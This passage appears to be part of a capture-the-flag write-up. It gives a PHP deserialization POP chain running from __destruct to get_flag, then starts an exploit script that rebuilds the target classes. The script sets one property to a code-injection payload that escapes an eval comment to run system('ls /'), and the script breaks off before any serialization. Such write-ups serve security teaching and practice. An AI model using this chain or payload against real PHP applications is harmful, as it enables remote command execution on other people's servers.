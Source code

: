 pop 链

fin::__destruct()->what::__toString()->mix::run()->crow::__invoke()->fin::__call()->mix::get_flag()

```php
<?php

class crow
{
    public $v1;
    public $v2;

//    function eval() {
//        echo new $this->v1($this->v2);
//    }
//
//    public function __invoke()
//    {
//        $this->v1->world();
//    }
}

class fin
{
    public $f1;

//    public function __destruct()
//    {
//        echo $this->f1 . '114514';
//    }
//
//    public function run()
//    {
//        ($this->f1)();
//    }
//
//    public function __call($a, $b)
//    {
//        echo $this->f1->get_flag();
//    }

}

class what
{
    public $a;

//    public function __toString()
//    {
//        $this->a->run();
//        return 'hello';
//    }
}
class mix
{
    public $m1='?><?php system("ls /")?>';

//    public function run()
//    {
//        ($this->m1)();
//    }
//
//    public function get_flag()
//    {
//        eval('#' . $this->m1);
```